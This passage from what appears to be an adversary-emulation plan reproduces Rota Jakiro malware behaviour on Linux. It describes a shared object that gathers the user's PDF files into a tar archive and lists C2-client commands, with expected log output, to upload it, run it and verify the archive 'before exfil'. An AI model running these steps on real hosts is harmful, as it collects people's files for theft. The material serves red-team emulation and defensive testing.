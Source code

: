 The shared object performs the following actions:
- Creates the `tmp.rota` folder
- Starting from the $HOME folder using the `find` command, copy files with a `.pdf`
  extension into the `tmp.rota` folder
- All files are then compressed into a single file named `rota.tar.gz`

Rota Jakiro confirms the target file was created.

>Note: CTI reporting states Rota Jakiro uses shared objects for code execution. There is
>no public CTI reporting documenting exactly what these shared objects are executing.
>Therefore, the following code execution is based off general behaviors derived from CTI
>reporting targeting linux hosts.

---

### 👾 Red Team Procedures

1. Upload the shared object onto the Linux host.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_upload_file", "payload": "pdf.so"}'
   ```
2. Verify the shared object was uploaded to the Linux host.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_query_file", "arg":"local_rota_file.so"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/21 19:35:34 Received task output for session:  01020304
   [Task] 2023/08/21 19:35:34 file exists
   [SUCCESS] 2023/08/21 19:35:34 Successfully set task output.
   ```
3. Execute the Rota Jakiro `run_plugin` command to execute the shared object.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_run_plugin", "arg": "update"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/21 19:36:22 New task received for UUID:  01020304
   [INFO] 2023/08/21 19:36:32 Received task output for session:  01020304
   [Task] 2023/08/21 19:36:32 Shared Object Executed!
   [SUCCESS] 2023/08/21 19:36:32 Successfully set task output.
   ```
4. Verify the `.tar` file exsists before exfil.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_query_file", "arg":"/tmp/rota.tar.gz"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/21 19:37:53 New task received for UUID:  01020304
   [INFO] 2023/08/21 19:37:53 Sending new task to implant: 01020304
   [INFO] 2023/08/21 19:37:53 Received task output for session:  01020304
   [Task] 2023/08/21 19:37:53 file exists
   [SUCCESS] 2023/08/21 19:37:53 Successfully set task output.
   ```

### 🔮 Reference Code & Reporting
